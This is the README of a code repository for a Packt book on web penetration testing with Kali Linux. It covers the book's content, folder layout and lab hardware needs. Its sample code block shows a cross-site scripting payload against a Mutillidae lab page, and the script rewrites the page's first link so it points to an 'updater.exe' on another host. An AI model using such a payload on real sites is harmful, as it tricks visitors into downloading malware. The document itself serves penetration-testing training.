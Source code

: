 # Mastering Kali Linux for Web Penetration Testing
This is the code repository for [Mastering Kali Linux for Web Penetration Testing](https://www.packtpub.com/networking-and-servers/mastering-kali-linux-web-penetration-testing?utm_source=github&utm_medium=repository&utm_campaign=9781784395070), published by [Packt](https://www.packtpub.com/?utm_source=github). It contains all the supporting project files necessary to work through the book from start to finish.
## About the Book
You will start by delving into some common web application architectures in use, both in private and public cloud instances. You will also learn about the most common frameworks for testing, such as OWASP OGT version 4, and how to use them to guide your efforts. In the next section, you will be introduced to web pentesting with core tools and you will also see how to make web applications more secure through rigorous penetration tests using advanced features in open source tools. The book will then show you how to better hone your web pentesting skills in safe environments that can ensure low-risk experimentation with the powerful tools and features in Kali Linux that go beyond a typical script-kiddie approach. After establishing how to test these powerful tools safely, you will understand how to better identify vulnerabilities, position and deploy exploits, compromise authentication and authorization, and test the resilience and exposure applications possess.


## Instructions and Navigation
All of the code is organized into folders. Each folder starts with a number followed by the application name. For example, Chapter02.

Chapter 01, 02, 04, 05, 09, 11, and 12 doesn't contain code files.

The code will look like the following:
```
http://172.16.30.129/mutillidae/index.php?page=user-info.php
&username=
Infiltrating Sessions via Cross-Site Scripting
[ 20 ]
<script>window.onload = function() {var
AllLinks=document.getElementsByTagName("a"); AllLinks[0].href =
"http://172.16.30.128/updater.exe"; }</script>
```

Hardware list:
The exercises performed in this book and the tools used can be deployed on any modern
Windows, Linux, or Mac OS machine capable of running a suitable virtualization platform
and a more recent version of the OS. Suggested minimum requirements should allow for at
least the following resources to be available to your virtual platforms:
4 virtual CPUs
4-8 GB of RAM
802.3 Gigabit Ethernet, shared with host machine
802.11a/g/n/ac WiFi link, shared with host machine
Software list:
Desktop/Laptop Core OS and Hypervisor:
Virtualization should be provided by one of Kali Linux's supported hypervisors, namely
one of the following options. The operating system and hardware will need to support the
minimum requirements, with an eye toward dedicating the previous hardware
recommendations to the guest virtual machines.

## Related Products
* [Mastering Kali Linux for Advanced Penetration Testing - Second Edition](https://www.packtpub.com/networking-and-servers/mastering-kali-linux-advanced-penetration-testing-second-edition?utm_source=github&utm_medium=repository&utm_campaign=9781787120235)

* [Mastering Kali Linux for Advanced Penetration Testing](https://www.packtpub.com/networking-and-servers/mastering-kali-linux-advanced-penetration-testing?utm_source=github&utm_medium=repository&utm_campaign=9781782163121)

* [Kali Linux Web Penetration Testing Cookbook](https://www.packtpub.com/networking-and-servers/kali-linux-web-penetration-testing-cookbook?utm_source=github&utm_medium=repository&utm_campaign=9781784392918)

### Download a free PDF

 <i>If you have already purchased a print or Kindle version of this book, you can get a DRM-free PDF version at no cost.<br>Simply click on the link to claim your free PDF.</i>
<p align="center"> <a href="https://packt.link/free-ebook/9781784395070">https://packt.link/free-ebook/9781784395070 </a> </p>